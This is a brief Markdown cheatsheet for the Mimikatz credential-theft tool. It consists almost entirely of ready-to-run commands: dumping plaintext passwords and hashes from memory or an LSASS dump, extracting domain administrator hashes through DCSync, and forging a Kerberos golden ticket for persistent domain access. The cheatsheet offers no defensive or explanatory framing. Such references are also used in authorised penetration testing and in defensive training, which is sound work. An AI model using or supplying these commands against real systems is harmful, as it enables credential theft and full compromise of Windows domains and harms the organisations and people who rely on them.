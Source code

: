 # Mimikatz Cheatsheet

## Dump Creds
```powershell
# Extract plaintext passwords
sekurlsa::logonpasswords

# Dump LSASS (requires admin)
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords /in:lsass.dmp

# Extract hashes from DC (DCSync)
lsadump::dcsync /user:DOMAIN\Administrator
```
## Golden Ticket Attack
```powershell
kerberos::golden /user:fakeadmin /domain:DOMAIN /sid:S-1-5-21-... /krbtgt:KRBTGT_HASH /ptt
```